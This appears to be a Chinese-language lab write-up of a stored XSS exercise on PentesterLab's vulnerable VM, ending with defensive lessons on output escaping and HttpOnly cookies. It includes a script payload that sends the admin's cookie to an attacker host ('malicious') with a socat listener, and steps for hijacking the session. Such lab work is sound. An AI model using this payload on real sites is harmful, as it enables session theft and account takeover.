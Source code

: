 # 跨站脚本(XSS)攻击
## 实验过程
### 漏洞网站准备
- 在[Files for XSS and MySQL FILE](https://pentesterlab.com/exercises/xss_and_mysql_file/attachments)下载iso文件
- 使用虚拟机加载, 配置一块`Host-Only`网卡
- 虚拟机成功运行后, 宿主机(及同网段的虚拟机)可使用虚拟机IP地址访问该漏洞网站
### 设置虚拟机root密码
- `sudo bash`直接进入root模式
- `passwd`设置新的管理员密码
### 查看admin密码
- `cat /var/www/classes/db.php`查看调用的数据库为`blog`, 同时可以查看到管理员的用户名和密码
- `cat /var/www/classes/user.php`查看用户登录时查找的数据库表格`users`
- 登录数据库, `select * from users`, 获得`admin`密码的md5哈希值, 使用在线工具破解获得密码`P4ssw0rd`
- 实际上应该使用`SQL`注入来获得管理员密码, 但本实验重点是`XSS`攻击, 攻击者并非通过使用管理员用户名密码登录来获得管理员权限, 因此只是简单地获得管理员密码来模拟登录
### 普通用户获得admin权限
- 使用`nikto –h server-ipaddr`可查看网站漏洞
  - 用户可通过改变cookie来获得管理员权限<br>
    ![nikto检出漏洞](img/cookies-dangerous.jpg)
- 提交评论`<script>document.write('<img src="http://malicious/?'+document.cookie+'  "/>');</script>`
  - `malicious`为攻击者的IP地址
- `socat TCP-LISTEN:80,reuseaddr,fork -`在攻击者主机上对80端口进行监听
- 使用靶机登录admin账户并查看评论, 正在监听的攻击者就可以获得admin账户的Cookie:<br>
  ![获得Cookie](img/get-cookie.png)
- 获得cookie后, 使用开发者工具-控制台修改`document.cookie`, 无需知道密码即可成功获得管理员权限
### 使用爬虫验证
- [Python代码](spider_finding.py)
- 通过提交含有`HTML`代码的评论进行验证, 这段代码可以显示一个按钮, 按钮点击后会弹出一个消息框
- 先确认提交评论后, 评论的数量发生了变化, 再进行`XSS`漏洞的验证
## 实验总结
- 用户提交的数据需要经过转义之后才能展示
- `PHPSSID`应设置`httponly`, 避免`Cookie`的滥用